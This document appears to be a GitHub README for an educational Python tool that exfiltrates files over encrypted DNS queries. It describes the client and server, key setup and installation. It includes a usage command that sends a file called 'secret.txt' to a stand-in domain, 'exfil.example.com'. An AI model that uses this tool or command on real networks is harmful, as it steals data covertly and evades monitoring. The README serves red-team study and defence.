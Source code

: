 # 🧬 Python DNS Exfiltration Client & Server

This project demonstrates how data can be exfiltrated over DNS using a Python-based client-server architecture. The client reads a file, encrypts and encodes its contents, and transmits the data via DNS queries. The server listens for these queries, decodes and decrypts the data, and reconstructs the original file.

> ⚠️ **Disclaimer**: This tool is intended for educational and research purposes only. Unauthorized use against systems without explicit permission is illegal and unethical.

---

## 📂 Project Structure

- `client.py`: Encrypts and encodes the file, then sends data chunks via DNS queries.
- `server.py`: Listens for incoming DNS queries, decodes and decrypts the data, and reconstructs the original file.
- `.env`: Stores the AES encryption key used by both client and server.
- `requirements.txt`: Lists the Python dependencies required for the project.
- `LICENSE`: GPL-3.0 License.

---

## 🔐 Encryption

- Uses **AES-GCM (256-bit)** encryption for confidentiality and integrity.
- Each session uses a random 12-byte nonce.
- Ciphertext is Base32-encoded (unpadded) for DNS-safe transmission.

### Environment Variable

Create a `.env` file in the root directory with the following:

```env
EXFIL_KEY=<your 64-character hex key>
```

You can generate a 256-bit key with:

```bash
head -c 32 /dev/urandom | xxd -p -c 32
```

> ⚠️ The same key must be used on both the client and the server for successful decryption.

---

## ⚙️ Features

### Client (`client.py`)

- Encrypts file contents using AES-GCM.
- Base32-encodes the encrypted data.
- Splits encoded data into DNS-safe chunks.
- Sends chunks via DNS A queries using `dnslib`.
- Uses a unique session identifier per file.

### Server (`server.py`)

- Listens on UDP port 5300 for DNS queries.
- Extracts and reassembles chunks by session ID.
- Base32-decodes the payload.
- Decrypts using AES-GCM.
- Saves the original file to disk.

---

## 🛠️ Installation

1. **Clone the Repository**

   ```bash
   git clone https://github.com/bufo333/python-dns-exfiltration-client-server.git
   cd python-dns-exfiltration-client-server
   ```

2. **Install Dependencies**

   It's recommended to use a virtual environment:

   ```bash
   python3 -m venv venv
   source venv/bin/activate
   pip install -r requirements.txt
   ```

3. **Create `.env` file with encryption key**

   ```bash
   echo "EXFIL_KEY=$(head -c 32 /dev/urandom | xxd -p -c 32)" > .env
   ```

---

## 🚀 Usage

### Start the Server

```bash
python3 server.py
```

- The server will start listening on UDP port 5300.
- Decrypted files are written to the `output/` directory.

### Run the Client

```bash
python3 client.py <file_path> <domain>
```

- `<file_path>`: Path to the file you want to exfiltrate.
- `<domain>`: The domain name to which the DNS queries will be sent.

**Example:**

```bash
python3 client.py secret.txt exfil.example.com
```

---

## 📌 Notes

- Ensure that the domain (`exfil.example.com`) is configured to point to the server's IP address.
- The server must have permissions to bind to the specified UDP port.
- This tool is for educational purposes. Always obtain authorization before using on any network.

---

## 📄 License

This project is licensed under the GNU General Public License v3.0. See the [LICENSE](LICENSE) file for details.

---

## 🤝 Acknowledgments

Inspired by various DNS exfiltration techniques and tools in the cybersecurity and red-team communities.

---

## 🧠 Learn More

For deeper insights into DNS-based data exfiltration:

- [DNS Exfiltration Techniques](https://attack.mitre.org/techniques/T1048/)
- [How DNS Tunneling Works – Detection & Response](https://www.socinvestigation.com/how-dns-tunneling-works-detection-response/)
- [DNS Exfiltration & Tunneling: How it Works](https://helgeklein.com/blog/dns-exfiltration-tunneling-how-it-works-dnsteal-demo-setup/)

---

*Happy Learning! Stay Ethical and Informed.*
